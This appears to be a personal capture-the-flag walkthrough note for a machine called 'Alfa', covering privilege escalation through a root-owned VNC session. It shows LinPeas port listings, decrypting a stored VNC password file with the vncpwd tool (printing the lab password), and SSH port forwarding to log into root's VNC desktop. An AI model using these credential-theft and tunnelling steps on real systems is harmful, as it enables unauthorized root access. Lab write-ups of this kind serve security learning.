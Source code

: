 # LinPeas

1. VNC Service: 5901

```bash
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:65111           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::445                  :::*                    LISTEN      -                   
tcp6       0      0 :::139                  :::*                    LISTEN      -                   
tcp6       0      0 ::1:5901                :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::65111                :::*                    LISTEN      - 
```



# try to dump vnc process


root       477  0.0  3.2 128960 48416 ?        S    may23   0:00 /usr/bin/Xtigervnc :1 -desktop Alfa:1 (root) -auth /root/.Xauthority -geometry 1900x1200 -depth 24 -rfbwait 30000 -rfbauth /root/.vnc/passwd -rfb


--> not working but i can decrypt the vnc pass:

https://book.hacktricks.xyz/pentesting/pentesting-vnc#decrypting-vnc-password

Tool from here:
https://github.com/jeroennijhof/vncpwd

thomas@Alfa:~$ chmod +x vncpwd1 
thomas@Alfa:~$ ./vncpwd1 .remote_secret
Password: k!LL3rSs
thomas@Alfa:~$ 

But also dont need to decrypt, just copy the file to local and login after tunneling

Tunnel 5901 to localhost:

```bash
ssh thomas@alfa.fritz.box -p 65111 -L 5901:localhost:5901
```

![[Pasted image 20210524011829.png]]

Start VNC Viewer from localhost
```bash
vncviewer -passwd .remote_secret 127.0.0.1::5901
```



![[Pasted image 20210524011506.png]]
